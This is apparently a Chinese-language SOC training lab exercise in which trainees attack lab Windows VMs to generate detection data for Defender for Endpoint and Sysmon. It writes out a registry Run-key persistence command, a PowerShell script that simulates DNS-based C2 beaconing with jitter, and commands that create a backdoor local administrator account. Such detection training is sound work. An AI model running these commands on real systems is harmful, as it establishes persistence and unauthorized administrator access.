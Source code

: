 ﻿# 模块 7 - 实验室 1 - 练习 5 - 进行攻击

### 任务 1：攻击配置了 Defender for Endpoint 的 Windows。

在此任务中，你将在配置了 Microsoft Defender for Endpoint 的主机执行攻击。

1. 使用以下密码以管理员身份登录到 WIN1 虚拟机：**Pa55w.rd**。  

2. 在任务栏的搜索框中，输入 *“Command”*。  命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择 **“以管理员身份运行”**。确认显示的任何用户帐户控制提示。

3. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter 键：
```
cd \
mkdir temp
cd temp
```
4. 攻击 1 - 复制并运行此命令：

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻击 3 - 复制并运行此命令：

```
notepad c2.ps1
```
选择 **“是”** 以创建新文件并将以下 PowerShell 脚本复制到 c2.ps1，然后选择 **“保存”**。

**备注** 粘贴到虚拟机可能有长度限制。  将此脚本分为三部分进行粘贴，以便将所有脚本粘贴到虚拟机中。  确保脚本在记事本 c2.ps1 文件中的外观与在这些说明中一致。

```


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)

```

在命令提示符中输入以下内容，在每一行中输入命令，并在每一行后按 Enter 键：
```
powershell
.\c2.ps1
```
**备注：** 你将看到解析错误。这在预料之中。
让此命令/powershell 脚本在后台运行。不要关闭窗口。  该命令需要在数小时内生成日志条目。  在此脚本运行期间，你可以继续进行下一项任务和下一个练习。  此任务创建的数据稍后将在威胁搜寻中使用。  此过程不会创造大量的数据或处理。

### 任务 2：攻击配置了 Sysmon 的 Windows

在此任务中，你将在配置了安全事件连接器和 Sysmon 的主机上执行攻击。

1. 以管理员身份使用密码登录到 WIN2 虚拟机：**Pa55w.rd**。  

2. 在任务栏的搜索框中，输入 *“CMD”*。  命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择 **“以管理员身份运行”**。

3. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter 键：
```
cd \
mkdir temp
cd \temp
```

4. 攻击 1 - 复制并运行此命令：

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻击 2 - 复制并运行此命令，在每一行中输入命令，并在每一行后按 Enter 键：

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 转到练习 6
